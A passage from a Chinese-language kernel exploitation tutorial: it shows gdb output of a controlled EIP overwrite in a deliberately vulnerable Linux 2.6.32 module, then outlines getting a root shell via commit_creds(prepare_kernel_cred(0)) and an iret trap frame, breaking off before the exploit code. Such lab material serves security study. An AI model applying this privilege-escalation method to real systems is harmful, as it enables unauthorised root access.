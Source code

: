 ```
    at /home/muhe/linux_kernel/linux-2.6.32.1/linux-2.6.32.1/stack_smashing/stack_smashing.c:12
12    }
gdb-peda$ x/10i $pc
=&gt; 0xc8830028 &lt;bug2_write+40&gt;:    ret    
   0xc8830029:    push   ebp
   0xc883002a:    mov    ebp,esp
   0xc883002c:    push   eax
   0xc883002d:    call   0xc10038d8 &lt;mcount&gt;
   0xc8830032:    mov    DWORD PTR [esp],0xc8830084
   0xc8830039:    call   0xc142b9bc &lt;printk&gt;
   0xc883003e:    leave  
   0xc883003f:    ret    
   0xc8830040:    add    al,0x0
gdb-peda$ ni
Warning: not running or target is remote
0x42424242 in ?? ()
gdb-peda$
```

发现eip被覆盖成了预期的值。

**4 exploit**

**1. 思路**

拿到shell的思路还是利用commit_creds(prepare_kernel_cred(0))，然后返回到用户模式，返回到用户模式执行iret指令

关于iret指令:

当使用IRET指令返回到相同保护级别的任务时，IRET会从堆栈弹出代码段选择子及指令指针分别到CS与IP寄存器，并弹出标志寄存器内容到EFLAGS寄存器。

当使用IRET指令返回到一个不同的保护级别时，IRET不仅会从堆栈弹出以上内容，还会弹出堆栈段选择子及堆栈指针分别到SS与SP寄存器。

栈上保存了trap frame，返回到用户模式的时候，恢复信息从以下得得结构读取



```
struct trap_frame 
{
    void* eip;                // instruction pointer +0
    uint32_t cs;            // code segment    +4
    uint32_t eflags;        // CPU flags       +8
    void* esp;                // stack pointer       +12
    uint32_t ss;            // stack segment   +16
} __attribute__((packed));
```

那么get root shell的思路就是：先去执行commit_creds(prepare_kernel_cred(0))，然后返回到用户模式，执行起shell，也就是说先把当前进程权限提到root，然后执行起shell操作，那么我们就可以得到一个root的shell了。

需要的两个函数地址如下：

[![](./img/85840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0154a5cf2410bd72e3.png)

**2. 编写exploit**

exploit 代码如下
